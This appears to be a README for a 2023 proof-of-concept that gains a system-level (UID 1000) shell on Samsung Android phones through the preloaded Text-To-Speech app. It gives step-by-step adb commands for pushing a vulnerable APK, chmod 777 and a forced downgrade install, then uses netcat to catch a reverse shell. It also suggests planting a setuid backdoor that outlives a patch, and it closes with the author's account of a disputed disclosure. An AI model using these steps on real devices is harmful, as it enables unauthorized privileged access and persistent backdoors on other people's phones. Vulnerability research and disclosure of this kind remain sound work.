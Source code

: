 # K0mraid3s_System_Shell-Source
 Source code for K0mraid3s 2023 System Shell PoC
As seen on XDA https://forum.xda-developers.com/t/system-shell-exploit-all-samsung-mobile-devices-no-bl-unlock-required.4543071/

If you just need this prebuilt, see this repo https://github.com/k0mraid3/K0mraid3s-System-Shell

This PoC Should point at localhost port 9997, so nc -lp 9997 into it once built. 

Step 1 - Install the included "komraids_POC_V1.6.apk" to the device, then push the included "samsungTTSVULN2.apk" to /data/local/tmp (adb push samsungTTSVULN2.apk /data/local/tmp) -> Chmod 777 /data/local/tmp/samsungTTSVULN2.apk >>> I advice disabling all battery optimizations for Samsung TTS and Shell, otherwise, it cuts off the shell from time to time.

Step 2 - Make sure ADB is on, Connected and authorized and all power saving is off (as mentioned above) Reboot device.

Step 4 - When device reboots, run this command from ADB. adb shell pm install -r -d -f -g --full --install-reason 3 --enable-rollback /data/local/tmp/samsungTTSVULN2.apk ---> it will return "Success" when done.

Step 5 - Now, open two shells, in the first, do nc -lp 9997 & in the second, do am start -n com.samsung.SMT/.gui.DownloadList -> Look back at the first shell., it should have opened into a new system (UID 1000) shell.

Some things to note: We can use localhost or staric IP, this basically uses a trick with the libmstring and netcat to open a reverse shell in the context of Samsung Text-To-Speech, a preloaded system app on all samsung mobile devices. Once as system, we could find a dir/make a dir somewhere, with a script to get back in, chmod a+s and make a backdoor to outlive a patch of this too...

Its hit or miss, this thing has a personality of its own sometimes in the  sense it will work, or it wont, just keep trying to nc -lp into the shell, its there.

About this project:
Its full or drama and BS. I reported this to Samsung in October 2022, but they have decided this is GOOGLES problem and forgot to tell me their decision. LONG STORY CUT SHORT, Between the time Samsung decided this was GOOGLES problem and them telling me of that decision, somehow, "another external security researcher" reported this exact thing to google in the context it was their find. IDK who, nor do I really care at this point. Its done and over with, but stuff like this is what makes some security researches ever hesitant to share their finds, even with the shady vendors/OEMS.
